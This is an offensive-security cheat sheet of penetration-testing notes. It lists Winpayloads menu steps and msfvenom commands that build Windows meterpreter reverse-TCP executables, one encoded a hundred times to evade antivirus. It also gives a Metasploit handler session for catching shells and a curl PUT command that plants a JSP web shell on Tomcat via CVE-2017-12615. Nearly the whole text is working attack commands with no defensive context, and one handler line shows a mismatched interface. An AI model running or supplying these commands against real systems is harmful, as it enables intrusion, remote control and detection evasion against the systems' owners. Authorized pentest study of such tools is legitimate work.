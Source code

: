 ### [Payload Resources]
https://github.com/nccgroup/Winpayloads

Winpayloads.py

stager
r
ps payload
execute payload on target
#handler gets hit
\
clients
clientid#
\
back (to main menu)
2 to reverse tcp
y to upload
clientid#
\
#msfloads
sessions -i sesid#
shell
background (leave process in background)
sessions -k sesid#
\
clients
exit (kills client session)

https://github.com/xephora/PayloadsAllTheThings

[Generating Payloads on Windows using Metasploit]

### [Regular Reverse TCP]
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -f exe > shell.exe
[Poly Morphic Reverse TCP]
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -e x64/shikata_ga_nai -i 100 -f exe > file.exe

### [Handler]
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST eth0
LHOST => tun0
msf5 exploit(multi/handler) > set LPORT 32119
LPORT => 32119
msf5 exploit(multi/handler) > run

https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom
https://www.offensive-security.com/metasploit-unleashed/fun-incognito/

### [CVE-2017-12615]
```
curl -X PUT https://example/path/where/to/put/shell.jsp/ -d @- < shell.jsp
```
https://github.com/breaktoprotect/CVE-2017-12615
